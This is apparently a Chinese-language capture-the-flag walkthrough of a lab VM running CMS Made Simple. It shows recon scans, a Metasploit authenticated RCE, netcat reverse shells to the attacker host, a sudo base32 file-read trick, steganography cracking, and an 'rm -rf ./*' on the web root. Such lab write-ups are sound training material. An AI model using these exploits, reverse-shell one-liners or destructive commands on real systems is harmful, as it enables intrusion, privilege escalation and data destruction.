




# 信息搜集
主机发现

```
┌──(root㉿kali)-[~]
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:f7:03:e6, IPv4: 192.168.21.13
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.21.1    cc:e0:da:eb:34:a2       Baidu Online Network Technology (Beijing) Co., Ltd
192.168.21.2    04:6c:59:bd:33:50       Intel Corporate
192.168.21.9    08:00:27:3f:00:cb       PCS Systemtechnik GmbH
192.168.21.4    c2:ab:39:9e:98:94       (Unknown: locally administered)

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.073 seconds (123.49 hosts/sec). 4 responded
```
端口扫描

```
┌──(root㉿kali)-[~]
└─# nmap --min-rate 10000 -p- 192.168.21.9
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-11 04:40 EDT
Nmap scan report for 192.168.21.9 (192.168.21.9)
Host is up (0.000079s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
6660/tcp open  unknown
MAC Address: 08:00:27:3F:00:CB (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.54 seconds
                                                                
┌──(root㉿kali)-[~]
└─# nmap -sU --min-rate 10000 -p- 192.168.21.9
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-11 04:40 EDT
Warning: 192.168.21.9 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.21.9 (192.168.21.9)
Host is up (0.0010s latency).
All 65535 scanned ports on 192.168.21.9 (192.168.21.9) are in ignored states.
Not shown: 65457 open|filtered udp ports (no-response), 78 closed udp ports (port-unreach)
MAC Address: 08:00:27:3F:00:CB (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 72.87 seconds
                                                                
┌──(root㉿kali)-[~]
└─# nmap -sT -sV -O -p22,80,6660 192.168.21.9 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-11 04:41 EDT
Nmap scan report for 192.168.21.9 (192.168.21.9)
Host is up (0.00026s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
6660/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port6660-TCP:V=7.94SVN%I=7%D=3/11%Time=67CFF758%P=x86_64-pc-linux-gnu%r
SF:(NULL,A5,"\n\n\x20\x20\x20MESSAGE\x20FOR\x20WWW-DATA:\n\n\x20\x1b\[31m\
SF:x20\x20www-data\x20I\x20offer\x20you\x20a\x20dilemma:\x20if\x20you\x20a
SF:gree\x20to\x20destroy\x20all\x20your\x20stupid\x20work,\x20then\x20you\
SF:x20have\x20a\x20reward\x20in\x20my\x20house\.\.\.\n\x20\x20\x20Paul\x20
SF:\x1b\[0m\n")%r(Socks5,A5,"\n\n\x20\x20\x20MESSAGE\x20FOR\x20WWW-DATA:\n
SF:\n\x20\x1b\[31m\x20\x20www-data\x20I\x20offer\x20you\x20a\x20dilemma:\x
SF:20if\x20you\x20agree\x20to\x20destroy\x20all\x20your\x20stupid\x20work,
SF:\x20then\x20you\x20have\x20a\x20reward\x20in\x20my\x20house\.\.\.\n\x20
SF:\x20\x20Paul\x20\x1b\[0m\n");
MAC Address: 08:00:27:3F:00:CB (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.66 seconds
```
# 漏洞利用
6660端口先不管了
```
┌──(kali㉿kali)-[~]
└─$ nc 192.168.21.9 6660


   MESSAGE FOR WWW-DATA:

   www-data I offer you a dilemma: if you agree to destroy all your stupid work, then you have a reward in my house...
   Paul
```
看一下80端口有什么


看一下有没有漏洞

```bash
┌──(root㉿kali)-[~]
└─# searchsploit made simple 2.2.5
------------------------------ ---------------------------------
 Exploit Title                |  Path
------------------------------ ---------------------------------
CMS Made Simple 2.2.5 - (Auth | php/webapps/44976.py
CMS Made Simple < 2.2.10 - SQ | php/webapps/46635.py
------------------------------ ---------------------------------
Shellcodes: No Results
```
需要账号密码

```bash
msf6 > search made simple 2.2.5

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/multi/http/cmsms_upload_rename_rce  2018-07-03       excellent  Yes    CMS Made Simple Authenticated RCE via File Upload/Copy


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/cmsms_upload_rename_rce            

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/cmsms_upload_rename_rce) > options

Module options (exploit/multi/http/cmsms_upload_rename_rce):

   Name       Current Settin  Required  Description
              g
   ----       --------------  --------  -----------
   PASSWORD                   yes       Password to authentica
                                        te with
   Proxies                    no        A proxy chain of forma
                                        t type:host:port[,type
                                        :host:port][...]
   RHOSTS                     yes       The target host(s), se
                                        e https://docs.metaspl
                                        oit.com/docs/using-met
                                        asploit/basics/using-m
                                        etasploit.html
   RPORT      80              yes       The target port (TCP)
   SSL        false           no        Negotiate SSL/TLS for
                                        outgoing connections
   TARGETURI  /cmsms/         yes       Base cmsms directory p
                                        ath
   USERNAME                   yes       Username to authentica
                                        te with
   VHOST                      no        HTTP server virtual ho
                                        st


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.21.13    yes       The listen address (an in
                                     terface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Universal


View the full module info with the info, or info -d command.
```
目录扫描

```bash
┌──(root㉿kali)-[~]
└─# dirsearch -u http://192.168.21.9         
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                
 (_||| _) (/_(_|| (_| )                                         
                                                                
Extensions: php, aspx, jsp, html, js | HTTP method: GET
Threads: 25 | Wordlist size: 11460

Output File: /root/reports/http_192.168.21.9/_25-03-11_04-51-11.txt

Target: http://192.168.21.9/

[04:51:11] Starting:                                            
[04:51:12] 403 -  277B  - /.htaccess.bak1
[04:51:12] 403 -  277B  - /.htaccess.orig
[04:51:12] 403 -  277B  - /.ht_wsr.txt
[04:51:12] 403 -  277B  - /.htaccessBAK
[04:51:12] 403 -  277B  - /.htaccess_orig
[04:51:12] 403 -  277B  - /.htaccess.sample
[04:51:12] 403 -  277B  - /.htaccessOLD
[04:51:12] 403 -  277B  - /.htaccess_extra
[04:51:12] 403 -  277B  - /.htaccess_sc
[04:51:12] 403 -  277B  - /.htaccessOLD2
[04:51:12] 403 -  277B  - /.htaccess.save
[04:51:12] 403 -  277B  - /.htm
[04:51:12] 403 -  277B  - /.html
[04:51:12] 403 -  277B  - /.htpasswd_test
[04:51:12] 403 -  277B  - /.htpasswds
[04:51:12] 403 -  277B  - /.httr-oauth
[04:51:12] 403 -  277B  - /.php
[04:51:14] 301 -  312B  - /admin  ->  http://192.168.21.9/admin/
[04:51:15] 302 -    0B  - /admin/  ->  http://192.168.21.9/admin/login.php
[04:51:15] 302 -    0B  - /admin/index.php  ->  http://192.168.21.9/admin/login.php
[04:51:15] 200 -    1KB - /admin/login.php
[04:51:18] 301 -  313B  - /assets  ->  http://192.168.21.9/assets/
[04:51:18] 200 -  518B  - /assets/
[04:51:20] 200 -    0B  - /config.php
[04:51:21] 200 -   24B  - /doc/
[04:51:21] 301 -  310B  - /doc  ->  http://192.168.21.9/doc/
[04:51:24] 404 -  225B  - /index.php/login/
[04:51:25] 301 -  310B  - /lib  ->  http://192.168.21.9/lib/
[04:51:25] 200 -   24B  - /lib/
[04:51:27] 301 -  314B  - /modules  ->  http://192.168.21.9/modules/
[04:51:27] 200 -  585B  - /modules/
[04:51:32] 403 -  277B  - /server-status/
[04:51:32] 403 -  277B  - /server-status
[04:51:35] 301 -  310B  - /tmp  ->  http://192.168.21.9/tmp/
[04:51:35] 200 -  460B  - /tmp/
[04:51:36] 301 -  314B  - /uploads  ->  http://192.168.21.9/uploads/
[04:51:36] 200 -    0B  - /uploads/

Task Completed 
```
找到了登录页面



从首页能看到应该有个admin用户


爆破一下密码



试一下刚才那个漏洞

```bash
msf6 exploit(multi/http/cmsms_upload_rename_rce) > options 

Module options (exploit/multi/http/cmsms_upload_rename_rce):

   Name       Current Settin  Required  Description
              g
   ----       --------------  --------  -----------
   PASSWORD                   yes       Password to authentica
                                        te with
   Proxies                    no        A proxy chain of forma
                                        t type:host:port[,type
                                        :host:port][...]
   RHOSTS                     yes       The target host(s), se
                                        e https://docs.metaspl
                                        oit.com/docs/using-met
                                        asploit/basics/using-m
                                        etasploit.html
   RPORT      80              yes       The target port (TCP)
   SSL        false           no        Negotiate SSL/TLS for
                                        outgoing connections
   TARGETURI  /cmsms/         yes       Base cmsms directory p
                                        ath
   USERNAME                   yes       Username to authentica
                                        te with
   VHOST                      no        HTTP server virtual ho
                                        st


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.21.13    yes       The listen address (an in
                                     terface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Universal


View the full module info with the info, or info -d command.

msf6 exploit(multi/http/cmsms_upload_rename_rce) > set password bullshit
password => bullshit
msf6 exploit(multi/http/cmsms_upload_rename_rce) > set rhosts 192.168.21.9
rhosts => 192.168.21.9
msf6 exploit(multi/http/cmsms_upload_rename_rce) > set username admin
username => admin
msf6 exploit(multi/http/cmsms_upload_rename_rce) > set targeturi /
targeturi => /
msf6 exploit(multi/http/cmsms_upload_rename_rce) > run
[*] Started reverse TCP handler on 192.168.21.13:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending stage (40004 bytes) to 192.168.21.9
[+] Deleted puYugYLi.txt
[+] Deleted puYugYLi.php
[*] Meterpreter session 1 opened (192.168.21.13:4444 -> 192.168.21.9:42532) at 2025-03-11 07:35:44 -0400
```
将shell反弹一下

```bash
meterpreter > shell
Process 23159 created.
Channel 0 created.
nc -c /bin/bash 192.168.21.13 4444
```

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444         
retrying local 0.0.0.0:4444 : Address already in use
retrying local 0.0.0.0:4444 : Address already in use
retrying local 0.0.0.0:4444 : Address already in use
listening on [any] 4444 ...
connect to [192.168.21.13] from (UNKNOWN) [192.168.21.9] 42534
python -c "import pty;pty.spawn('/bin/bash')"
www-data@debian:/var/www/html/uploads$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@debian:/var/www/html/uploads$ 
```
# 提权
找一下有没有可以切换的用户

```bash
www-data@debian:/var/www/html/uploads$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:106:113:MySQL Server,,,:/nonexistent:/bin/false
paul:x:1001:1001:,,,:/home/paul:/bin/bash
nico:x:1000:1000:,,,:/home/nico:/bin/bash
```
想到了前面那个6660端口，正好也是留名paul

```bash
www-data@debian:/var/www/html$ rm -rf ./*
rm -rf ./*
www-data@debian:/var/www/html$ cd /home/paul
cd /home/paul
www-data@debian:/home/paul$ ls -la
ls -la
total 32
drwxr-xr-x 3 paul paul 4096 Mar 11 12:46 .
drwxr-xr-x 4 root root 4096 Apr  1  2021 ..
lrwxrwxrwx 1 root root    9 Apr  1  2021 .bash_history -> /dev/null
-rw-r--r-- 1 paul paul  220 Apr  1  2021 .bash_logout
-rw-r--r-- 1 paul paul 3526 Apr  1  2021 .bashrc
drwx------ 3 paul paul 4096 Apr  6  2021 .local
-rw-r--r-- 1 paul paul  807 Apr  1  2021 .profile
-rw-r--r-- 1 paul paul   66 Apr  1  2021 .selected_editor
-rw-r--r-- 1 paul paul   30 Mar 11 12:46 password.txt
www-data@debian:/home/paul$ cat password.txt
cat password.txt
Password is: YouCanBecomePaul
```
登录到paul用户

```bash
──(root㉿kali)-[~]
└─# ssh paul@192.168.21.9                                   
The authenticity of host '192.168.21.9 (192.168.21.9)' can't be established.
ED25519 key fingerprint is SHA256:lceOIwdNewht9GK+znSKUwdNJEHgPsE9TvClQ1KEELA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.21.9' (ED25519) to the list of known hosts.
paul@192.168.21.9's password: 
Linux debian 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Apr  2 09:49:06 2021 from 192.168.0.25
paul@debian:~$ id
uid=1001(paul) gid=1001(paul) groupes=1001(paul)
```
看看哪里可以提权

```bash
paul@debian:~$ sudo -l
[sudo] Mot de passe de paul : 
Entrées par défaut pour paul sur debian :
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

L'utilisateur paul peut utiliser les commandes suivantes sur
        debian :
    (nico) /usr/bin/base32
```
可以用nico来执行base32

```bash
paul@debian:~$ ls -la /home/nico
total 32
drwxr-xr-x 3 nico nico 4096 avril  1  2021 .
drwxr-xr-x 4 root root 4096 avril  1  2021 ..
lrwxrwxrwx 1 root root    9 avril  1  2021 .bash_history -> /dev/null                                                           
-rw-r--r-- 1 nico nico  220 avril  1  2021 .bash_logout
-rw-r--r-- 1 nico nico 3526 avril  1  2021 .bashrc
drwxr-xr-x 3 nico nico 4096 avril  1  2021 .local
-rw-r--r-- 1 nico nico  807 avril  1  2021 .profile
-rwx------ 1 nico nico   37 avril  1  2021 .secret.txt
-rwx------ 1 nico nico   11 avril  1  2021 user.txt
paul@debian:~$ sudo -u nico /usr/bin/base32 /home/nico/.secret.txt
KVEGGZ2QKQ2GOYLOKZ5GIRRZOZRG2VTGMJLTS6K2KY4WSWSXKZ4USQJ5HUFA====
```



切换到了nico用户

```bash
paul@debian:~$ su nico
Mot de passe : 
nico@debian:/home/paul$ 
```
user.txt

```bash
nico@debian:/home/paul$ cd ~
nico@debian:~$ ls -la
total 32
drwxr-xr-x 3 nico nico 4096 avril  1  2021 .
drwxr-xr-x 4 root root 4096 avril  1  2021 ..
lrwxrwxrwx 1 root root    9 avril  1  2021 .bash_history -> /dev/null                                                           
-rw-r--r-- 1 nico nico  220 avril  1  2021 .bash_logout
-rw-r--r-- 1 nico nico 3526 avril  1  2021 .bashrc
drwxr-xr-x 3 nico nico 4096 avril  1  2021 .local
-rw-r--r-- 1 nico nico  807 avril  1  2021 .profile
-rwx------ 1 nico nico   37 avril  1  2021 .secret.txt
-rwx------ 1 nico nico   11 avril  1  2021 user.txt
nico@debian:~$ cat user.txt
gamhanarhu
```
不能sudo

```bash
nico@debian:~$ sudo -l
[sudo] Mot de passe de nico : 
Désolé, l'utilisateur nico ne peut pas utiliser sudo sur debian.
```
根目录下看到了nico，在里面找到了一个图片

```bash
nico@debian:~$ cd /
nico@debian:/$ ls
bin   home            lib32       media  proc  srv  var
boot  initrd.img      lib64       mnt    root  sys  vmlinuz
dev   initrd.img.old  libx32      nico   run   tmp  vmlinuz.old
etc   lib             lost+found  opt    sbin  usr
nico@debian:/$ cd nico
nico@debian:/nico$ ls
homer.jpg
```
看看图片有什么

```bash
┌──(root㉿kali)-[~]
└─# scp ssh@192.168.21.9:/nico/homer.jpg /home/kali
ssh@192.168.21.9's password: 
Permission denied, please try again.
ssh@192.168.21.9's password: 
                                                                
┌──(root㉿kali)-[~]
└─# scp nico@192.168.21.9:/nico/homer.jpg /home/kali
nico@192.168.21.9's password: 
homer.jpg                     100%   46KB  19.9MB/s   00:00    
                                                                
┌──(root㉿kali)-[~]
└─# cd /home/kali                            
                                                                
┌──(root㉿kali)-[/home/kali]
└─# stegseek -wl /usr/share/wordlists/rockyou.txt homer.jpg 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: ""
[i] Original filename: "note.txt".
[i] Extracting to "homer.jpg.out".
```



在/tmp下创建一个goodgame里面写入fantanshell

```bash
nico@debian:/tmp$ echo "nc -e /bin/sh 192.168.21.13 1234" > goodgame
nico@debian:/tmp$ chmod +x goodgame
```
反弹成功了，root.txt

```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lvnp 1234            
listening on [any] 1234 ...
connect to [192.168.21.13] from (UNKNOWN) [192.168.21.9] 43390
python -c "import pty;pty.spawn('/bin/bash')"
root@debian:~# id
id
uid=0(root) gid=0(root) groupes=0(root)
root@debian:~# ls -la
ls -la
total 32
drwx------  3 root root 4096 avril  2  2021 .
drwxr-xr-x 19 root root 4096 avril  1  2021 ..
lrwxrwxrwx  1 root root    9 avril  1  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 janv. 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 avril  1  2021 .local
-rw-------  1 root root 1285 avril  1  2021 .mysql_history
-rw-r--r--  1 root root  148 août  17  2015 .profile
-rw-r--r--  1 root root   13 avril  1  2021 root.txt
-rw-r--r--  1 root root   66 avril  1  2021 .selected_editor
root@debian:~# cat root.txt
cat root.txt
lasarnsilgam
```